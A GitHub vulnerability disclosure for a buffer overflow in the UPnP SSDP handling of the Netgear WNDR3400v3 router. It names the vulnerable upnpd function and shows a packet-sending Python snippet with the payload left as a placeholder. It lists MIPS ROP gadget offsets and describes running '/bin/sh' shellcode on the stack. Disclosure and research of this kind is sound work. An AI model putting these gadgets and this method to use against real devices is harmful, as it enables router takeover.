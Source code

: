 # Netgear (WNDR3400v3) Buffer Overflow Via UPnP SSDP #

**Vendor**：Netgear

**Product**: N600 WiFi Dual Band Router (WNDR3400v3)

**Firmware Version**: V1.0.1.18_1.0.63

**Vendor Homepage**: https://www.netgear.com/default.aspx

**CVE**: Pending

**NVD**: Pending

**PoC Script**: [netgear_upnp_poc.py](https://github.com/reevesrs24/CVE/blob/master/Netgear_WNDR2400v3/upnp_stack_overflow/netgear_upnp_poc.py)
## Vulnerability detail ##

1. There exists a buffer overflow in the ssdp_http_method_check function in the upnpd binary.
![alt text](screenshots/ghidra_upnp.png)

2. Sending a crafted UPnP SSDP packet allows for the $ra register to be overwritten.
```python
    ### UPnP Architecture Specs ###
    # M-SEARCH - Method for search requests
    # HOST - Multicast channed and port reserved for SSDP
    # MAN - Required by HTTP Exension Framework, defines the scope (namespace) of the extension
    # MX - MAximum wait time in seconds
    # ST: Required search target, pre defined values
    SSDP = arbitrary_string

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(5)
    s.sendto(SSDP, ('239.255.255.250', 1900) )
    s.close()
```
3.  While the stack is executable it does however employ ASLR. 
![alt text](screenshots/memory_map.png)
4. A ROP chain can be used to execute shellcode on the stack.  Several libraries such as libc.so.0, libnat.so and libcrypt.so.0 
have static address spaces which can be used to chain ROP gadgets.
```
ROP Gadget 1
-------------
libnat.so - 0x0000c488 

addiu $a0, $zero, 0xf 
move $t9, $s6 
jalr $t9 
move $a2, $zero 

ROP Gadget 2
-------------
lic.so.0 - 0x00038800

move $t9, $s2 
lw $ra, 0x28($sp)
lw $s3, 0x24($sp) 
lw $s2, 0x20($sp) 
lw $s1, 0x1c($sp) 
lw $s0, 0x18($sp)
jr $t9 
addiu $sp, $sp, 0x30

ROP Gadget 3
-------------
libcrypt.so.0 - 0x0000203c

move $t9, $s2
jalr $t9
addiu $a1, $sp, 0x2

ROP Gadget 4
-------------
lic.so.0 - 0x00032a6c

move $t9, $a1
addiu $a0, $a0, 0x38
jr $t9 
move $a1, $a2
```
5.  This ROP chain can be used to execute shellcode on the stack.  PoC shellcode '/bin/sh' written by Sanguine (https://www.exploit-db.com/exploits/35868)
was used to test this (My shellcode game is weak). Below the [sh] process was executed. Although this process immediately terminates once gdb is exited.    
![alt text](screenshots/sh.png)
6.  Much of this analysis was modeled after a great write up by Lyon Yang titled "Exploiting Buffer Overflows on MIPS Architectures".
